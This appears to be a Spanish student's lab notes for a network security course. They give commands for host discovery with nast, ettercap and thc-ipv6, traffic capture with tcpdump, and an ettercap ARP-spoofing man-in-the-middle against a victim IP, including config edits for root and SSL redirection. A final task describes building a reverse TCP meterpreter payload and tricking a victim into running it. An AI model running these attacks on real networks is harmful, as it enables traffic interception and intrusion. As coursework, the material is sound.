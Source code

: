


#### c) Obtenga la relación de las direcciones MAC de los equipos de su segmento.

```shell
nast -m
ettercap -Tq (pulsa L al terminar)
```


#### d) Obtenga la relación de las direcciones IPv6 de su segmento.

```shell
apt-get install thc-ipv6

atk6-alive6 ens33: muestra direcciones vivas en el segmento.
ettercap -Tq -6: muestra direcciones vivas en el segmento.
```

#### e) Obtenga el tráfico de entrada y salida legítimo de su interface de red ens33 e investigue los servicios, conexiones y protocolos involucrados.
```shell
tcpdump -w archivo -i ens33
ettercap -Tqp -w archivo -i ens33
```

#### f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.

Cambiar en `/etc/ettercap/etter.conf`

```sh
ec_uid = 65534                # nobody is the default
ec_gid = 65534                # nobody is the default                                         ->ARP -A PARA COMRPOBAR SI FUNCIONA
# se cambia a 0 ambas esto da permisos de administrador

# remote_browser = "xdg-open http://%host%url"

# Descomentar las redircommand de linux
# Razon: Se fuma las claves publicas de https, en algunos navegadores salta aviso y te dice que hay un problema con los certificados
```

Defensa:

```shell
ettercap -Tq -M arp:remote -P remote_browser -P repoison_arp -w salidaEttercap -i ens33 /10.11.49.97// /10.11.48.1//
```

#### g) Instale `metasploit`. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute.
